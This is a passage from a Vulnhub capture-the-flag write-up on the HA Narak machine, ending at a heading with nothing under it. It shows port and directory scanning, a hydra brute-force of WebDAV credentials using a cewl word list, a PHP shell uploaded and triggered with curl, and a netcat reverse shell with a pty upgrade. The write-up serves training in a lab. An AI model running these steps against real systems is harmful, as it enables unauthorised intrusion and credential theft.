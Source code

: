 ```yaml
---
title: Vulnhub - HA Narak
description: My writeup on HA Narak box.
categories:
 - vulnhub
tags: vulnhub webdav cewl hydra motd brainfuck
---
```


![](https://truthstar-tgt5cps4e32fytbrgae.netdna-ssl.com/wp-content/uploads/2015/11/Narak-Chaturdashi.jpg)

You can find the machine there > [HA Narak](https://www.vulnhub.com/entry/ha-narak,569/){:target="_blank"}

## Summary

This was a pretty interesting box, Let’s pwn it! :sunglasses:

## Enumeration/Reconnaissance

Let's start as always with nmap.

```
$ ip=192.168.1.16
$ nmap -p- --min-rate 10000 $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-29 10:53 EEST
Nmap scan report for ubuntu.zte.com.cn (192.168.1.16)
Host is up (0.00019s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 00:0C:29:04:4D:75 (VMware)

Nmap done: 1 IP address (1 host up) scanned in 2.63 seconds
$ nmap -p 22,80 -sC -sV -oN nmap/initial $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-09-29 10:53 EEST
Nmap scan report for ubuntu.zte.com.cn (192.168.1.16)
Host is up (0.00054s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 71:bd:59:2d:22:1e:b3:6b:4f:06:bf:83:e1:cc:92:43 (RSA)
|   256 f8:ec:45:84:7f:29:33:b2:8d:fc:7d:07:28:93:31:b0 (ECDSA)
|_  256 d0:94:36:96:04:80:33:10:40:68:32:21:cb:ae:68:f9 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: HA: NARAK
```

Let's start the enumeration on port 80 with a `gobuster` scan:

```
$ gobuster dir -q -u http://$ip/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x php,txt,html
/images (Status: 301)
/index.html (Status: 200)
/tips.txt (Status: 200)
/webdav (Status: 401)
/server-status (Status: 403)
```

`/tips.txt` says this message: `Hint to open the door of narak can be found in creds.txt.` probably this will be useful later on privesc because now there is no `creds.txt`

`/webdav` asks for creds:

![](https://i.imgur.com/5caa2BW.png)

Because i have experience with HA series their boxes require `cewl` lot of times, so let's generate a custom wordlist with `cewl` and do a brute force with hydra:

```
$ cewl http://$ip/ -w wordlist.txt
$ hydra -L wordlist.txt -P wordlist.txt $ip http-get /webdav

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-09-29 11:33:50
[DATA] max 16 tasks per 1 server, overall 16 tasks, 6724 login tries (l:82/p:82), ~421 tries per task
[DATA] attacking http-get://192.168.1.16:80/webdav
[80][http-get] host: 192.168.1.16   login: yamdoot   password: Swarg
```

## Shell as www-data

Perfect, a few words about the webdav. 

WebDAV is an extension of the HTTP protocol that allow users to upload,download files on the apache server. I always like to use `Cadaver` as WebDAV client. Let's login and upload our shell.

```
$ cadaver http://$ip/webdav
Authentication required for webdav on server `192.168.1.16':
Username: yamdoot
Password: 
dav:/webdav/> put shell.php
Uploading shell.php to `/webdav/shell.php':
Progress: [=============================>] 100.0% of 5494 bytes succeeded.
dav:/webdav/> exit
Connection to `192.168.1.16' closed.
```

Let's execute it and get shell:

```
$ curl --digest --user 'yamdoot:Swarg' http://$ip/webdav/shell.php
```

```
$ nc -lvp 5555                                                  
listening on [any] 5555 ...

$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@ubuntu:/$ whoami;id
www-data
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Shell as inferno
